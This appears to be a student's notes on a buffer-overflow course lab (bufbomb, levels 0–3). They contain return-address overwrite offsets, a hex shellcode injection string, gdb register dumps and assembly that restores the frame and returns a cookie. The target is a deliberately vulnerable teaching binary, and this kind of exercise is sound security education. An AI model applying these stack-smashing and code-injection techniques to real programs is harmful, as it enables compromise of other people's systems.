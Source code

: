 ## Level 0
https://www.cnblogs.com/chkkch/archive/2011/06/09/2076773.html
https://github.com/HeLiangHIT/Hardware_Software_Interface/blob/f223721d39c88ffb30a109922fbb7db761e6a3ee/README.md
To understand the bytes we need to overwrite, there are 0x30=48 bytes buf[] plus 8 bytes(one block) of rbp pushed, total 56 bytes. Then the ret addr of getbuf!
replace the getbuf() ret addr 0x0000000000400ef3 with addr of smoke()

## Level 1
Check slide sp20 L12 procedureII, above the ret addr the getbuf(now is fizz) expected to be the args of fizz().
replace getbuf ret addr to 401070, then args are above $rsp, cookie is -8+16 above.
0000000000401070 <fizz>:
  401070:	48 83 ec 08          	sub    $0x8,%rsp
  401074:	c7 05 32 12 20 00 01 	movl   $0x1,0x201232(%rip)        # 6022b0 <check_level>
  40107b:	00 00 00 
  40107e:	48 8b 74 24 10       	mov    0x10(%rsp),%rsi
  401083:	48 3b 35 96 12 20 00 	cmp    0x201296(%rip),%rsi        # 602320 <cookie>
Bytes: 48+8(%rbp)+8(ret addr)+8(empty)+8(cookie)

OR method 2 https://zhuanlan.zhihu.com/p/339802171
我们发现rsp的地址为0x5561dc78 是不是有点想法可以开始写了。

我们可以让执行完getbuf之后回到rsp的这里。然后把我们要执行的三行汇编代码执行。就可以成功执行touch2了。这样我们的输入流就如下图。

48 c7 c7 fa 97 b9 59 68 <-读入我们要执行的汇编语句
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 <-返回地址为rsp 


## Level 2
Cookie: 0x57c16f3c39d3260f

Breakpoint 1, getbuf () at bufbomb.c:136
136	  unsigned long long val = (unsigned long long)Gets(buf);
(gdb) next
137	  variable_length = alloca((val % 40) < 36 ? 36 : val % 40);
(gdb) info r $rsp
rsp            0x7fffffffbcd0	0x7fffffffbcd0

Bytes: 26(code)+22+8(%rbp)+8(ret addr, replaced with addr of buf[]), so that ret to the top of buf $rsp and execute cmds in bang_yukun.d

## Level 3
getbuf()返回的根本就不是cookie，没错，关键时候还是自己手动返回吧

we also need to restore $rbp value back, so we break at 132 and check what is the value of $rbp

Breakpoint 1, 0x0000000000400da1 in getbuf () at bufbomb.c:132
132	{
(gdb) info frame
Stack level 0, frame at 0x7fffffffbd10:
 rip = 0x400da1 in getbuf (bufbomb.c:132); saved rip = 0x400ef3
 called by frame at 0x7fffffffbd40
 source language c.
 Arglist at 0x7fffffffbd00, args: 
 Locals at 0x7fffffffbd00, Previous frame's sp is 0x7fffffffbd10
 Saved registers:
  rbp at 0x7fffffffbd00, rip at 0x7fffffffbd08
(gdb) print /x $rbp
$1 = 0x7fffffffbd30
(gdb) disas
Dump of assembler code for function getbuf:
   0x0000000000400da0 <+0>:	push   %rbp
=> 0x0000000000400da1 <+1>:	mov    %rsp,%rbp
(gdb) info r
rax            0x0	0
rbx            0xb9382ad	194216621
rcx            0xdeadbeef	3735928559
rdx            0x0	0
rsi            0x7274732065707954	8247343400600238420
rdi            0x603280	6304384
rbp            0x7fffffffbd30	0x7fffffffbd30
rsp            0x7fffffffbd00	0x7fffffffbd00
(gdb) x /5gx $rsp
0x7fffffffbd00:	0x00007fffffffbd30	0x0000000000400ef3

So
movabs $0x57c16f3c39d3260f,%rax
movabs $0x7fffffffbd30, %rbp
pushq  $0x400ef3
retq